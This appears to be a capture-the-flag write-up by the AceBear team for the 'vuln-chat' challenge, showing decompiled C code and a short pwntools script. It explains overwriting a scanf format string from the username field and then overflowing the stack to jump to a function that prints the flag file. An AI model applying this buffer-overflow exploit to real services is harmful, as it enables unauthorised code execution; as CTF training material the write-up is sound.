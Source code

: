 #Writeup Of AceBear Team

First, use IDA pro to view source code i have:
```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [esp+3h] [ebp-2Dh]
  char v5; // [esp+17h] [ebp-19h]
  int v6; // [esp+2Bh] [ebp-5h]
  char v7; // [esp+2Fh] [ebp-1h]

  setvbuf(stdout, 0, 2, 0x14u);
  puts("----------- Welcome to vuln-chat -------------");
  printf("Enter your username: ");
  v6 = 's03%';
  v7 = 0;
  __isoc99_scanf(&v6, &v5);
  printf("Welcome %s!\n", &v5);
  puts("Connecting to 'djinn'");
  sleep(1u);
  puts("--- 'djinn' has joined your chat ---");
  puts("djinn: I have the information. But how do I know I can trust you?");
  printf("%s: ", &v5);
  __isoc99_scanf(&v6, &v4);
  puts("djinn: Sorry. That's not good enough");
  fflush(stdout);
  return 0;
}
```
```C
int printFlag()
{
  system("/bin/cat ./flag.txt");
  return puts("Use it wisely");
}
```
When i input username, i can overwrite value of `v6`.
In this case i overwrite value of `v6` to `%s`.
In next step i can overflow stack and overwrite return address to address of `printFlag()`.

```py
from pwn import *
from time import *
printflag = 0x0804856B

r = remote('vulnchat.tuctf.com', 4141)
# r = process('./vuln-chat')
# gdb.attach(r ,)
r.recvuntil('Enter your username: ')
r.sendline('a'*20+'%s\x00')
sleep(1)
r.sendline('a'*0x2d+p32(printflag)*2)
r.interactive()
```
